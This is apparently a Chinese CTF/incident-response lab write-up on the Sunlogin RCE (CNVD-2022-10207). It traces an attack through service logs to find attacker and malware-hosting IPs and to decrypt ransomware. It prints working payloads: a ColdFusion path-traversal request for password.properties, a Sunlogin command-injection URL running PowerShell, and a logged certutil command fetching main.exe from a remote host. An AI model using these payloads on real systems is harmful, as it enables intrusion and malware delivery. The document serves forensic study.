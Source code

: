 CNVD-2022-10207

向日葵RCE

目录遍历攻击

```
/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en
```

命令注入攻击

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+whoami
```



```
通过本地 PC RDP到服务器并且找到黑客首次攻击成功的时间为 为多少,将黑客首次攻击成功的时间为 作为 FLAG 提交(2028-03-26 08:11:25.123);

通过本地 PC RDP到服务器并且找到黑客攻击的 IP 为多少,将黑客攻击 IP 作为 FLAG 提交;

通过本地 PC RDP到服务器并且找到黑客托管恶意程序 IP 为,将黑客托管恶意程序 IP 作为 FLAG 提交;

找到黑客解密 DEC 文件,将黑客DEC 文件的 md5 作为 FLAG 提交;

通过本地 PC RDP到服务器并且解密黑客勒索软件,将桌面加密文件中关键信息作为 FLAG 提交;
```



## 首次攻击成功时间和黑客IP

首先定位到日志位置

右键桌面的向日葵图标—>打开文件所在位置

![image-20250512084125540](./assets/image-20250512084125540.png)

进入log文件夹

![image-20250512084206666](./assets/image-20250512084206666.png)

其中sunlogin_service.20240321-191046文件大小明显大于别的日志文件

拷贝到本地

简单查看一下

![image-20250512084420907](./assets/image-20250512084420907.png)

存在[HTTP]关键词，其中记录了攻击者通过web服务器的恶意行为

grep提取

```
cat sunlogin_service.20240321-191046.log | grep HTTP > ra1n3.txt
```

![image-20250512084519582](./assets/image-20250512084519582.png)

![image-20250512084556284](./assets/image-20250512084556284.png)



前面都像是在进行目录爆破

直到最后面

![image-20250512085143843](./assets/image-20250512085143843.png)

因此第一条执行命令的时间即攻击者攻击成功的时间

```
2024-03-26 10:16:25.585 - Info  -       [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:64247, path: /check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+whoami, version: HTTP/1.1
```

同时也存在黑客IP

```
192.168.31.45
```



## 黑客托管恶意程序 IP

继续分析黑客行为

![image-20250512085442367](./assets/image-20250512085442367.png)

```
2024-03-26 10:31:07.576 - Info  -       [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49329, path: /check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmain.exe, version: HTTP/1.1
```

其中这一条利用certutil获取远程服务器上的main.exe

即

则托管恶意程序为

```
192.168.31.249
```







## 黑客解密 DEC 文件的MD5

![image-20250512085655619](./assets/image-20250512085655619.png)

这里，黑客将qq写入qq.txt

通过搜索该qq，在玄机群里找到pem文件

![image-20250512085817241](./assets/image-20250512085817241.png)



![image-20250512090322493](./assets/image-20250512090322493.png)

RSA私钥文件



```
md5sum DEC.pem
```

![image-20250512085926059](./assets/image-20250512085926059.png)



## 解密黑客勒索软件

![image-20250512090022120](./assets/image-20250512090022120.png)

根据前面得到的RSA私钥文件，利用RSA私钥解密

[在线RSA加密解密,RSA2加密解密(SHA256WithRSA)-BeJSON.com](https://www.bejson.com/enc/rsa/)

![image-20250512090857844](./assets/image-20250512090857844.png)

但是得到这一串内容不知道怎么处理



将黑客上传的main.exe文件保存到本地，ida分析

![image-20250512091826689](./assets/image-20250512091826689.png)

其中暴露了github项目地址

利用给出的解密方式进行解密即可

![image-20250512091909013](./assets/image-20250512091909013.png)